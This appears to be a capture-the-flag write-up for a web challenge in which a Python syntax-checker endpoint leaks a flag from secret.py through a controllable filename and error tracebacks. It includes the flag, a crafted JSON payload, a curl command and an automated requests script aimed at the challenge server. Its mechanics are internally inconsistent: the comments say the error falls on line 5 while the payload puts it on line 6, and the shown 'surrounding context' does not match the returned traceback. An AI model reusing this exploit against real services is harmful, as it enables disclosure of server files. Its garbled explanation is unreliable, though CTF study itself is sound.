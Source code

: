 **Writeup: CTF Challenge - Online Python Editor**

**Challenge Name:** Online Python Editor  
**Category:** Web Exploitation  
**Difficulty:** Medium  
**Flag:** `TRX{4ll_y0u_h4v3_t0_d0_1s_l00k_4t_th3_s0urc3_c0d3}`

---

### **Challenge Analysis**
A web application provides a Python syntax checker endpoint (`/check`) that uses `ast.parse()`. The server contains a `secret.py` file with the flag, which we need to extract through error message leakage.

---

### **Key Vulnerabilities**
1. **Filename Parameter Control**  
   The `filename` parameter in the JSON payload isn't sanitized, allowing path specification.
   
2. **Error Message Leakage**  
   Syntax errors return tracebacks showing code context from the specified file.

---

### **Exploit Strategy**
1. **Force Error Context Leakage**  
   Craft a payload that triggers a syntax error at the exact line where `FLAG` is declared in `secret.py`.

2. **Structure Mirroring**  
   Replicate `secret.py`'s code structure up to the flag declaration line to align error positions.

---

### **Step-by-Step Exploit**

#### 1. Analyze `secret.py` Structure
```python
def main():
    print("Here's the flag: ")
    print(FLAG) 
    
FLAG = "TRX{4ll_y0u_h4v3_t0_d0_1s_l00k_4t_th3_s0urc3_c0d3}"

main()
```

#### 2. Craft Malicious Payload
```python
{
    "source": (
        "def main():\n"
        "    print(\"Here's the flag: \")\n"
        "    print(FLAG)\n\n"
        "FLAG = \"\"\n"  # Valid syntax up to line 4
        "invalid syntax"  # Force error at line 5
    ),
    "filename": "secret.py"
}
```

#### 3. Send Payload to Endpoint
```bash
curl -X POST http://python.ctf.theromanxpl0.it:7001/check \
     -H "Content-Type: application/json" \
     -d '{"source":"def main():\n    print(\"Here\'s the flag: \")\n    print(FLAG)\n\nFLAG = \"\"\ninvalid syntax","filename":"secret.py"}'
```

#### 4. Analyze Error Response
The server returns:
```
  File "secret.py", line 5
    invalid syntax
    ^
SyntaxError: invalid syntax
```

**Surrounding Context:**
```
3│    print(FLAG)
4│    
5│FLAG = "TRX{4ll_y0u_h4v3_t0_d0_1s_l00k_4t_th3_s0urc3_c0d3}"
```

---

### **Automated Exploit Script**
```python
import requests
import re

TARGET_URL = "http://python.ctf.theromanxpl0.it:7001/check"

payload = {
    "source": (
        "def main():\n"
        "    print(\"Here's the flag: \")\n"
        "    print(FLAG)\n\n"
        "FLAG = \"\"\n"
        "invalid syntax"
    ),
    "filename": "secret.py"
}

response = requests.post(TARGET_URL, json=payload)
error = response.json().get("error", "")

flag_match = re.search(r'FLAG = "(TRX{.*?})"', error)
print(f"Captured Flag: {flag_match.group(1)}") if flag_match else print("Exploit failed")
```

---

### **Why This Works**
- **Filename Poisoning:** Forces error traceback to reference `secret.py`
- **Line Alignment:** Matches code structure to expose the flag line
- **Error Context:** Flask's debug mode shows 3-5 lines around errors

---

### **Mitigation Recommendations**
1. **Sanitize Filename Inputs**  
   Restrict filenames to safe values.
   
2. **Disable Debug Mode**  
   Prevent detailed error messages in production.

3. **Sandbox Code Analysis**  
   Use isolated environments for parsing untrusted code.

---

**Flag Captured:** `TRX{4ll_y0u_h4v3_t0_d0_1s_l00k_4t_th3_s0urc3_c0d3}`

This challenge demonstrates the importance of proper error handling and input validation in web applications. Always sanitize user-controlled parameters that interact with file systems!
